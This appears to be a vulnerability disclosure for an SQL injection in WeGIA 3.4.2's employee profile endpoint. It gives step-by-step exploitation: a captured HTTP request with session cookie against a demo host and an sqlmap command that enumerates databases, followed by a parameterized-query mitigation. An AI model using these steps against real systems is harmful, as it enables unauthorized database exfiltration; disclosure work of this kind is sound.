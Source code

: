 VIDEO POC: 

Vulnerability Type: SQL Injection (Union-based / Error-based exfiltration)

#Affected Application: WeGIA version 3.4.2

#Vulnerable Endpoint: /html/funcionario/profile_funcionario.php?id_funcionario={ID}

#Vulnerable Parameter: id_funcionario (expected to be numeric, but unsafely concatenated into the query)

#Impact: Full exfiltration of database content (database names, tables, columns, sensitive records). Severe confidentiality breach and potential total data compromise.

🔧 PoC Step-by-Step

1 - Authentication:
Log into the WeGIA 3.4.2 platform with valid credentials (e.g., administrator account).

![image](https://github.com/user-attachments/assets/330d5f02-c10d-45c5-b541-b0d9cacbb4ed)

2 - Prepare a Test Record:
If necessary, register a new employee to obtain a controlled id_funcionario.

![image](https://github.com/user-attachments/assets/498ed9b6-b393-4c8c-9648-043c8054a348)

![image](https://github.com/user-attachments/assets/ce0a6536-5963-4b56-829c-1669f36712f2)

3 - Intercept and Save the Request:

![image](https://github.com/user-attachments/assets/035286ba-ea6f-4517-9b1d-ee7d1d861914)

4 - Access the employee profile page for a given ID, for example:

![image](https://github.com/user-attachments/assets/0dd122c3-d42d-40a8-a6db-e01cbc428805)

GET /html/funcionario/profile_funcionario.php?id_funcionario=2 HTTP/2  
Host: demo.wegia.org  
Cookie: _ga=GA1.1.620166737.1749629529; PHPSESSID=elbvoreo9ua2cs8812amnokbdc; _ga_F8DXBXLV8J=GS2.1.s1750752029$o5$g1$t1750752048$j41$l0$h0  
Accept-Language: pt-BR,pt;q=0.9  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Dest: document  
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"  
Sec-Ch-Ua-Mobile: ?0  
Sec-Ch-Ua-Platform: "Windows"  
Referer: https://demo.wegia.org/html/funcionario/informacao_funcionario.php  
Accept-Encoding: gzip, deflate, br  
Priority: u=0, i  

Use a proxy tool (Burp Suite, OWASP ZAP, etc.) to intercept and save this request in a file, e.g., request.txt.

5 - Run sqlmap with the Saved Request:

![image](https://github.com/user-attachments/assets/2494d08b-f54d-4f82-9562-4e65010cf5c7)

Execute sqlmap pointing to the saved file, testing injection and enumerating databases:

#sqlmap -r request.txt --batch --dbs

Sqlmap identifies the injection point in id_funcionario and confirms that the database is MySQL/MariaDB.

6 - After processing, sqlmap or manual analysis reveals existing databases, such as information_schema and wegia.

![image](https://github.com/user-attachments/assets/34720bfa-070c-4afc-b3ca-10f6997a5769)


⚠️ Recommendations & Mitigations

Prepared Statements / Parameterized Queries:
Always use bound parameters for id_funcionario instead of directly concatenating it into SQL.
